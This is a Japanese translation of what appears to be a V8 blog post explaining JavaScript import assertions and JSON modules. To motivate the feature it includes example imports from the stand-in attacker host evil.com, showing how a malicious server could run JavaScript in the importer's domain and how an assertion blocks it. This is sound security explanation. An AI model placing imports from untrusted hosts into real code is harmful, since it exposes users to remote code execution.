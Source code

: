 ```yaml
---
title: 'インポートアサーション'
author: 'Dan Clark ([@dandclark1](https://twitter.com/dandclark1)), インポートアサーションの主張者'
avatars:
  - 'dan-clark'
date: 2021-06-15
tags:
  - ECMAScript
description: 'インポートアサーションにより、モジュール指定子とともに追加の情報をインポート文に含めることができます'
tweet: ''
---
```


新しい[インポートアサーション](https://github.com/tc39/proposal-import-assertions)機能により、モジュール指定子とともに追加の情報をインポート文に含めることができます。この機能の初期の用途として、JSON文書を[JSONモジュール](https://github.com/tc39/proposal-json-modules)としてインポート可能にすることがあります:

<!--truncate-->
```json
// foo.json
{ "answer": 42 }
```

```javascript
// main.mjs
import json from './foo.json' assert { type: 'json' };
console.log(json.answer); // 42
```

## 背景: JSONモジュールとMIMEタイプ

自然に浮かぶ疑問は、JSONモジュールを次のように単純にインポートできない理由です:

```javascript
import json from './foo.json';
```

WebプラットフォームはモジュールリソースのMIMEタイプを実行前に有効性を確認し、このMIMEタイプを使ってリソースをJSONとして扱うかJavaScriptモジュールとして扱うかを判断することも理論的には可能です。

しかし、MIMEタイプだけに依存することには[セキュリティ問題](https://github.com/w3c/webcomponents/issues/839)があります。

モジュールはクロスオリジンでインポート可能で、開発者は第三者ソースからJSONモジュールをインポートすることがあるかもしれません。適切にサニタイズされている限り、JSONをインポートすることでスクリプトが実行されることはないため、基本的に安全だと考えるかもしれません。

しかし、この場合でも第三者のスクリプトが実際に実行される可能性があります。予期せずJavaScript MIMEタイプと悪意のあるJavaScriptペイロードを返すサーバが輸入者のドメインでコードを実行することができるためです。

```javascript
// JavaScript MIMEタイプ (例: `text/javascript`) を
// evil.comが返答した場合、JSを実行します!
import data from 'https://evil.com/data.json';
```

ファイル拡張子を使用してモジュールタイプを判別することはできません。なぜなら、[ウェブ上ではコンテンツタイプの信頼できる指標ではない](https://github.com/tc39/proposal-import-assertions/blob/master/content-type-vs-file-extension.md)からです。そのため、インポートアサーションを用いて期待されるモジュールタイプを示し、この権限昇格の落とし穴を防ぎます。

開発者がJSONモジュールをインポートしたい場合は、それがJSONであることを指定するインポートアサーションを使用する必要があります。ネットワークから受け取ったMIMEタイプが期待されるタイプと一致しない場合、インポートは失敗します:

```javascript
// evil.comが非JSON MIMEタイプで返答した場合は失敗します。
import data from 'https://evil.com/data.json' assert { type: 'json' };
```

## 動的`import()`

インポートアサーションは、[動的`import()`](https://v8.dev/features/dynamic-import#dynamic)に新しい2番目のパラメータとしても渡すことができます:

```json
// foo.json
{ "answer": 42 }
```

```javascript
// main.mjs
const jsonModule = await import('./foo.json', {
  assert: { type: 'json' }
});
console.log(jsonModule.default.answer); // 42
```

JSONコンテンツはモジュールのデフォルトエクスポートであるため、`import()`から返されるオブジェクトの`default`プロパティを通じて参照されます。

## 結論

現在、インポートアサーションの唯一の指定された用途はモジュールタイプの指定です。しかし、機能は任意のキー／値アサーションペアを許容するように設計されているため、将来、モジュールインポートを別の方法で制限することが有用になる場合に追加の用途が追加される可能性があります。

一方、新しいインポートアサーション構文を使用したJSONモジュールはChromium 91でデフォルトで利用可能です。[CSSモジュールスクリプト](https://chromestatus.com/feature/5948572598009856)もすぐに登場する予定で、同じモジュールタイプアサーション構文を使用します。

## インポートアサーションのサポート

<feature-support chrome="91 https://chromestatus.com/feature/5765269513306112"
                 firefox="no"
                 safari="no"
                 nodejs="no"
                 babel="yes https://github.com/babel/babel/pull/12139"></feature-support>
